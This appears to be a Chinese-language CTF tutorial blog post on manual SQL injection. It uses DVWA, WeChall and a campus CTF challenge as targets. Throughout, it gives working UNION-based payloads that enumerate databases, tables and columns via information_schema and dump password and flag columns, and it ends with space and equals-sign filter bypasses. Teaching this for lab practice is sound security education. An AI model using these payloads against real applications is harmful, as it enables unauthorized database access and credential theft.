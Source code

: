 ```yaml
---
title: SQL基础
date: 2020-12-08
description: SQL手工注入的基本步骤，绕过空格、等号
category: 信息安全
tags:
  - CTF
  - SQL
---
```

# 判断注入类型  
输入`1' and 1=2 #`，这明显是不成立的，如果回显正常，说明不是字符型注入，不是单引号闭合；如果报错，证明是字符型注入  
同理，输入`1 and 1=2 #`判断是否是数字型注入  
以DVWA的sql(low)为例，输入`1 and 1=2 #`没有报错，证明这不是数字型注入：
![不是数字型注入](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/dvwa.png)
而输入`1' and 1=2 #`报错，是字符型注入
# 爆字段数（显示位）
接下来以校赛题目为例，是字符型注入。原题过滤了空格和等号，这里我们假装没有任何过滤  
用`1' or 1=1 #`可以看到所以的信息，这是因为查询语句变成了查找满足用户名是1或者满足1=1的所有用户。虽然没有用户名为1，但是所有用户名都满足1=1，所以会显示所以用户信息  
## 用order by爆
用`1' or 1=1 order by 5 #`爆显示位。order by 5返回正常，这意味着显示位大于等于5个，一直试到报错为止。这个题加到6就报错了  
order by的意思是按第几个字段排序
## 用union select爆
用`1' union select 1,2,3,4,5 #` 同样一直加到报错为止。用这个有一个好处，就是可以看到各字段和显示位之间的对应关系  
  
不得不说，后面又一次忘记了union select的本质了。被迫更新  
  
`union select`会强行在数据库中加入一些数据，然后再执行查询命令。  
  
现在来解释对应关系的问题，以wechall的MySQL II 为例：  
  
  我们输入`woc'union select 1,'xiaobinggan',md5('fanpai') #`和`fanpai`，看到回显如下
  ![wechall](https://raw.githubusercontent.com/Cranberrycookies/cranberrycookies.github.io/master/assets/images/SQL/wechall.png)
  我们输入了3个字段，只显示出了1个（username字段：xiaobinggan），所以我们后续的注入回显就要在二号位进行

# 爆库名
## 用database爆库名
`1' union select 1,database(),3,4,5 #`   
在2号位显示库名，后面的3,4,5用来凑显示位  
这样爆库名只能看到当前的库
![只能看到用户的库](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86%E5%BA%93%E5%90%8D1.png)
## 用information_schema爆库名
```sql
1' union select 1,(select group_concat(schema_name) from information_schema.schemata),3,4,5 #
```
information_schema是元数据库，里面存放了所有数据库的所有信息，比如库名、表名、列、数据类型、访问权限等  
schemata是information_schema中的一个表，里面存放了库名  
group_concat()函数可以把组中的字符串连接成一个字符串，schema_name就是库名，group_concat(schema_name)就是从
information_schema.schemata这个表中搜索schema_name（库名），并且返回为一个字符串
![看到了所有库](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86%E5%BA%93%E5%90%8D2.png)
# 爆表名
```sql
1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = 'cumtctf'),3,4,5 #
```
information_schema.tables中存放了所有表的信息，table_schema是数据表所属的数据库名  
获取了cumtctf这个库中表的表名：
![表名](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86%E8%A1%A8%E5%90%8D.png)
# 爆列名
```sql
1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name = 'ctfers'),3,4,5 #
```
column_name就是列名，table_name表名（这次不用在库里搜索了，和schema没关系了）  
获得列名如下：
![列名](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86%E5%88%97%E5%90%8D.png)
# 爆flag
## 全爆
```sql
1' union select 1,(select group_concat(password) from ctfers),3,4,5 #
```
这个可以看到password里的所有信息，一堆密码和flag
![爆一堆flag](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86flag1.png)
## 一个一个爆
```sql
1' union select 1,(select password from ctfers limit 15,1),3,4,5 #
```
limit作用是从第15个开始（从0开始计数），返回一个（不能返回多个，显示位就一个）  
一个一个试，试到第15个
![一个一个试](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86flag2.png)
# 绕过姿势要妖娆
## 绕过空格
`/**/`占位置的正则表达  
`%09`tab  
`%20`空格  
## 绕过等号
`regexp`  
`like`  
`rlike`  
都可以代替等号

